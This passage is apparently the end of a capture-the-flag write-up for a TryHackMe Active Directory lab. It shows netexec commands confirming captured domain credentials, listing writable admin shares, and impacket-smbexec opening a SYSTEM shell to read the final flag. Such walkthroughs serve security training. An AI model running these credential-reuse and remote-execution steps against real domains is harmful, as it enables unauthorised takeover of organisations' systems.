└─$ netexec ldap ad.thm.local -u SANFORD_DAUGHERTY -p 'RESET_ASAP123'                                
LDAP      10.48.178.1     389    AD     [*] Windows 10 / Server 2019 Build 17763 (name:AD) (domain:thm.local) (signing:None) (channel binding:No TLS cert)                                                                                      
LDAP      10.48.178.1     389    AD     [+] thm.local\SANFORD_DAUGHERTY:RESET_ASAP123 (Pwn3d!)
```

So from here we can see that these credentials are correct and working so we will check shared folders

```bash
└─$ netexec smb ad.thm.local -u SANFORD_DAUGHERTY -p 'RESET_ASAP123' --shares
SMB         10.48.178.1     445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.48.178.1     445    AD               [+] thm.local\SANFORD_DAUGHERTY:RESET_ASAP123 (Pwn3d!)
SMB         10.48.178.1     445    AD               [*] Enumerated shares
SMB         10.48.178.1     445    AD               Share           Permissions     Remark
SMB         10.48.178.1     445    AD               -----           -----------     ------
SMB         10.48.178.1     445    AD               ADMIN$          READ,WRITE      Remote Admin
SMB         10.48.178.1     445    AD               C$              READ,WRITE      Default share
SMB         10.48.178.1     445    AD               IPC$            READ            Remote IPC
SMB         10.48.178.1     445    AD               NETLOGON        READ,WRITE      Logon server share 
SMB         10.48.178.1     445    AD               SYSVOL          READ,WRITE      Logon server share
```
We can see that, this user permitted for READ and WRITE

STEP XXI: Now we will use impacket-smbexec
```bash
impacket-smbexec thm.local/SANFORD_DAUGHERTY:RESET_ASAP123@ad.thm.local
```
```bash
C:\Windows\system32>cd ..
[-] You can't CD under SMBEXEC. Use full paths.
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt.txt
THM{INFILTRATION_COMPLETE_OUR_COMMAND_OVER_NETWORK_ASSERTS}
C:\Windows\system32>
```

#Final Flag
```bash
THM{INFILTRATION_COMPLETE_OUR_COMMAND_OVER_NETWORK_ASSERTS}
```


